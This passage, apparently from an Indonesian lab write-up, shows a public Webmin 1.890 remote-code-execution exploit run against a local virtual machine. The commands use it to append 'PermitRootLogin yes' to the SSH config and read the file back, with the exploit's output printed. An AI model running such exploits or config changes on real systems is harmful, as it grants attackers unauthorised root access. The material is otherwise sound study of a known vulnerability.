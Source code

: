 ```bash
#PermitTTY yes
PrintMotd no
#PrintLastLog yes
#TCPKeepAlive yes
#UseLogin no
#PermitUserEnvironment no
#Compression delayed
#ClientAliveInterval 0
#ClientAliveCountMax 3
#UseDNS no
#PidFile /var/run/sshd.pid
#MaxStartups 10:30:100
#PermitTunnel no
#ChrootDirectory none
#VersionAddendum none

# no default banner path
#Banner none

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem sftp	/usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#	X11Forwarding no
#	AllowTcpForwarding no
#	PermitTTY no
#	ForceCommand cvs server
PasswordAuthentication yes
</p>
```

Di situ ternyata `PasswordAuthentication` sudah diizinkan. Saya hanya tinggal menambahkan `PermitRootLogin yes` agar saya dapat login menggunakan `root` user.

```bash
natanhp@ngoumah ~/D/w/WebMin-1.890-Exploit-unauthorized-RCE (master) [1]> python webmin-1.890_exploit.py 192.168.75.128 10000 "echo \"PermitRootLogin yes\" >> /etc/ssh/sshd_config"
/home/natanhp/Downloads/wembin/WebMin-1.890-Exploit-unauthorized-RCE/webmin-1.890_exploit.py:6: SyntaxWarning: invalid escape sequence '\_'
  STAIN = """


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ /
 ___/ // / / ___ |_/ // /|  /
/____//_/ /_/  |_/___/_/ |_/

--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
</p>
natanhp@ngoumah ~/D/w/WebMin-1.890-Exploit-unauthorized-RCE (master) [1]> python webmin-1.890_exploit.py 192.168.75.128 10000 "cat /etc/ssh/sshd_config"
/home/natanhp/Downloads/wembin/WebMin-1.890-Exploit-unauthorized-RCE/webmin-1.890_exploit.py:6: SyntaxWarning: invalid escape sequence '\_'
```